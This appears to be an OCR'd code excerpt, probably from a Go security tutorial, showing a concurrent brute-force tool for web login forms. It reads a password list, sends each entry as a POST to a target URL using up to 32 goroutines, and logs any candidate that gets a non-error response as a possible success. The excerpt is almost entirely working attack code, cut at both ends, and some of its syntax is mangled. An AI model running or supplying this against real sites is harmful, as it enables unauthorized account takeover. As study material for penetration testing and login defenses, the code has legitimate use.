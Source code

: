 ```
   } 

   // Password list, Post URL, username, username field, 
   // password field 
   return os.Args[1], os.Args[2], os.Args[3], os.Args[4], os.Args[5] 
} 

func testLoginForm( 
   url, 
   userField, 
   passField, 
   username, 
   password string, 
   doneChannel chan bool, 
) 
{ 
   postData := userField + "=" + username + "&" + passField + 
      "=" + password 
   request, err := http.NewRequest( 
      "POST", 
      url, 
      bytes.NewBufferString(postData), 
   ) 
   client := &http.Client{} 
   response, err := client.Do(request) 
   if err != nil { 
      log.Println("Error making request. ", err) 
   } 
   defer response.Body.Close() 

   body := make([]byte, 5000) // ~5k buffer for page contents 
   response.Body.Read(body) 
   if bytes.Contains(body, []byte("ERROR")) { 
      log.Println("Error found on website.") 
   } 
   log.Printf("%s", body) 

   if bytes.Contains(body,[]byte("ERROR")) || response.StatusCode != 200 { 
      // Error on page or in response code 
   } else { 
      log.Println("Possible success with password: ", password) 
      // os.Exit(0) // Exit on success? 
   } 

   doneChannel <- true 
} 

func main() { 
   pwList, postUrl, username, userField, passField := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwList) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 32 
```